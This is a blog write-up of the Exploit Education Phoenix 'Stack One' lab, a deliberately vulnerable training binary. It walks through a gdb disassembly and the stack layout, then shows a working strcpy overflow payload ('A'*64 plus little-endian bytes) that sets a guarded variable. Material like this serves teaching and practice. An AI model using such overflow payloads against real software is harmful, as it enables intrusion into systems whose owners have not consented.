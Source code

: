 ```yaml
---
layout: post
title: Stack One Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack One exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)

### Quick Overview

Unlike Stack Zero, Stack One exercise motive is to smash the stack to modify other variables in the stack to a `hex value 0x496c5962`. Technically, similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-one code, One can use `gdb ./stack-one` to start debugging it in runtime.

1. `gdb ./stack-one`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x000000000040066d <+0>:     push   rbp
   0x000000000040066e <+1>:     mov    rbp,rsp
   0x0000000000400671 <+4>:     sub    rsp,0x60
   0x0000000000400675 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:    mov    edi,0x400750
   0x0000000000400681 <+20>:    call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:    cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:    jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:    mov    esi,0x4007a0
   0x0000000000400691 <+36>:    mov    edi,0x1
   0x0000000000400696 <+41>:    mov    eax,0x0
   0x000000000040069b <+46>:    call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:    mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:    add    rax,0x8
   0x00000000004006af <+66>:    mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:    lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:    mov    rsi,rdx
   0x00000000004006b9 <+76>:    mov    rdi,rax
   0x00000000004006bc <+79>:    call   0x4004a0 <strcpy@plt>
   0x00000000004006c1 <+84>:    mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006c4 <+87>:    cmp    eax,0x496c5962
   0x00000000004006c9 <+92>:    jne    0x4006d7 <main+106>
   0x00000000004006cb <+94>:    mov    edi,0x4007d8
   0x00000000004006d0 <+99>:    call   0x4004c0 <puts@plt>
   0x00000000004006d5 <+104>:   jmp    0x4006eb <main+126>
   0x00000000004006d7 <+106>:   mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006da <+109>:   mov    esi,eax
   0x00000000004006dc <+111>:   mov    edi,0x400820
   0x00000000004006e1 <+116>:   mov    eax,0x0
   0x00000000004006e6 <+121>:   call   0x4004b0 <printf@plt>
   0x00000000004006eb <+126>:   mov    edi,0x0
   0x00000000004006f0 <+131>:   call   0x4004e0 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-one using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-one, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Set `locals.changeme` variable to `zero` or `0x00` in hex
3. Strcpy `locals.buffer` variable filled by argv[1] argument passed from commandline
4. Verify `locals.changeme` is `0x496c5962` in hex
5. Use puts(aka Printf) method to greet the user again with decision (cmp instruction)
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe610` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-one-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5c0` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe600`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully. However, our challenge is to overwrite `locals.changeme` variable with `0x496c5962`. If you try generating the payload simply  `(A * 64) + '\x49\x6c\x59\x62'`, this would represent in the memory as `64 'A's & 0x62596c49` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x62\x59\x6c\x49'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-one-gdb.jpg)

```assembly
(gdb) r $(python -c "print('A'*64 + '\x62\x59\x6c\x49')")
Starting program: /opt/phoenix/amd64/stack-one
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[Inferior 1 (process 426) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack One Exercise: [Exploit Education](https://exploit.education/phoenix/stack-one/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.

